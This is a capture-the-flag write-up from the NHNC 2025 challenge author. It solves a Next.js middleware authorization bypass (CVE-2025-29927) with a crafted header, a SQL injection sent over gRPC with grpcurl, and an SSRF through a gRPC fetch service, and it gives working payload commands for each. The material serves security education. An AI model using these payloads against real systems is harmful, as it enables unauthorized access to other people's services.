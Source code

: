 ```yaml
---
title: "NHNC 2025 Writeup"
description: "No Hack No CTF 2025 Official Writeup"
published: 2025-07-08
draft: false
tags: ['CTF', 'NHNC', 'Cyber-Sec']
---
```

Hi I am Frank and this's my Official Writeup </br>

The source code for all challenges of me</br>
[https://github.com/Frank-Kam/NHNC-2025_Chal](https://github.com/Frank-Kam/NHNC-2025_Chal)

## Welcome (Welcome)
### Description
```html
##### Welcome to No Hack No CTF 2025. Good luck and have fun !
![](/posts/images/NHNC_2025-1.webp "NHNC{Welcome_Flag_lol}")
</br>

`Hover your mouse over the image !`
```
<img src="/posts/NHNC_2025-1.webp" alt="NHNC Welcome Flag" width="50" height="50" title="NHNC{Welcome_Flag_lol}">
Just move the mouse and place it on the image to get the flag. </br>

`NHNC{Welcome_Flag_lol}`

## Next Song is 春日影 (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Next_Song_is_%E6%98%A5%E6%97%A5%E5%BD%B1)
### Description
```html
![春日影](https://drive.miyago9267.com/d/file/img/mygo/%E7%82%BA%E4%BB%80%E9%BA%BC%E8%A6%81%E6%BC%94%E5%A5%8F%E6%98%A5%E6%97%A5%E5%BD%B1.jpg)
</br>

NextJS Vulnerability at /admin

`Author: Frank`
```
Visiting `/admin` will reveal a redirect, then go to Google and search for `NextJS Vulnerability payload`; you should see many payloads for `CVE-2025-29927`. </br>
[Understanding CVE-2025-29927: The Next.js Middleware Authorization Bypass Vulnerability](https://securitylabs.datadoghq.com/articles/nextjs-middleware-auth-bypass/) </br>
So, just add the following to the HTTP HEADER:
```bash
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```
Then use the payload:
```bash
curl -X GET -H "x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware" https://???.com/admin
```
Then get the flag </br>

`NHNC{ANon_iS_cUtE_RIGhT?}`

## Catch The Goose (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Catch_The_Goose)
### Description
```html
![Goose](https://www.americanoceans.org/wp-content/uploads/2023/12/goose-vs-duck-1024x768.jpeg)
</br>

👀 secret_flag or user:admin

`Author: Frank`
```
### Public File
```bash
server.py
```
From the third line of the public file, it can be seen that there is `gRPC`, and on the line 12 , there is an `SQL query string without filtering` before or after, suggesting that gRPC is used for `SQL injection`. </br>
If you directly test with grpcurl now, it will definitely report an error (because there is `no .proto file to define the gRPC connection method`) , so we read the [gRPC official manual](https://grpc.io/docs/what-is-grpc/introduction/) to find the syntax for the .proto file. </br>
Then, by examining lines 11 to 21 of the source code, we saw that `GetUser returns a UserReply`, and the surrounding lines show how `username` is handled, so we created `user.proto` accordingly.
```bash
syntax = "proto3";

service UserService {
  rpc GetUser (UserRequest) returns (UserReply);
}

message UserRequest {
  string username = 1;
}

message UserReply {
  string data = 1;
}
```
Finally, based on the challenge description and the `SQL query string` on line 12, we discovered that in addition to `user:admin`, there is also a key called `secret_flag`. </br>
Therefore, we constructed the payload accordingly.
```bash
grpcurl -plaintext -proto user.proto -d '{"username": "'\'' OR key = '\''secret_flag"}' ???.com:14514 UserService/GetUser
```
Then get the flag </br>

```json
{
  "data": "NHNC{lETs_cOoK_THe_GoOSE_:speaking_head::speaking_head::speaking_head:}"
}
```

## Let's Cook Some Delicious Goose! (Web)
### [Source Code](https://github.com/Frank-Kam/NHNC-2025_Chal/tree/main/Lets_Cook_Some_Delicious_Goose!)
### Description
```html
#### The Goose Is Run Awayyyyy!!!
![](https://static.styletc.com/images/cover/25/401925/md-a1e281da945043f7eab9b6dcc1b1ace6.jpg)
</br>
Analyze the packets
</br>

`Author:Frank` </br>
*Ps : The File < 150 MB*
`[https://drive.google.com/file/d/1Vc3IEderqWIBcbDiHzLgx0vP9K15OxUS/view?usp=sharing](https://drive.google.com/file/d/1Vc3IEderqWIBcbDiHzLgx0vP9K15OxUS/view?usp=sharing)`
```
### Public File
```bash
Happy_Log.pcapng
fetch.proto
flag_server.py
```
We noticed that the public files include a `.pcapng` packet capture file and a `.proto file used for gRPC` communication. </br>
We started by analyzing the packet capture file using Wireshark. </br>
Use the filter at the top of Wireshark to filter for gRPC traffic. </br>
```bash
grpc
```
Then, we can see packets like the following:
```bash
:method: POST
:scheme: http
:path: /fetch.FetchService/FetchURL
:authority: ???.com:6666
content-type: application/grpc
user-agent: grpcurl/v1.9.3 grpc-go/1.61.0
te: trailers
grpc-accept-encoding: gzip


:status: 200
content-type: application/grpc
grpc-accept-encoding: identity, deflate, gzip

grpc-status: 0
grpc-message: 
```
We can clearly see a gRPC packet sent from the user to the target machine at `???.com:6666`. </br>
Based on fetch.proto and flag_server.py, we can tell this is an `SSRF test`. In flag_server.py, it looks like you first need to `GET /token` and then use the retrieved token to `POST to /POST`. </br>
Finallyyyyy, let's construct the payload. </br>
Get token
```bash
grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/token\",\"method\":\"GET\",\"headers\":{}}" ???.com:6666 fetch.FetchService/FetchURL
```
Post to /flag
```bash
grpcurl -plaintext -proto fetch.proto -d "{\"url\":\"http://localhost:80/flag\",\"method\":\"POST\",\"headers\":{\"Content-Type\":\"application/x-www-form-urlencoded\"},\"body\":\"token=66663333777nejwncc\"}" ???.com:6666 fetch.FetchService/FetchURL
```
Then get the flag </br>

`NHNC{YuMMyeeeE_GOOOd_ChAL_rIGHT}`

#### Thank you for reading. Feel free to leave a comment and discuss with me.